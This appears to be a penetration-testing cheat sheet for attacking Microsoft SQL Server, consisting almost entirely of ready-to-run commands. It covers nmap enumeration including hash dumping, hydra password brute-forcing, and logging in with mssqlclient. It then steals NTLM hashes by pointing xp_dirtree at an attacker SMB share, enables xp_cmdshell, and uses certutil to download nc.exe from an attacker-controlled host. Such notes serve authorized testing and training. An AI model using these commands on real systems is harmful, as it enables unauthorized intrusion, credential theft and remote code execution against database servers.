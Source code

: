 # MSSQL - 1443

#### Get information <a href="#get-information" id="get-information"></a>

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

#### Brute force <a href="#brute-force-5" id="brute-force-5"></a>

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

#### Having credentials <a href="#having-credentials" id="having-credentials"></a>

```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```

#### Manual exploit <a href="#manual-exploit" id="manual-exploit"></a>

```
Cheatsheet :
	- https://www.asafety.fr/mssql-injection-cheat-sheet/
```
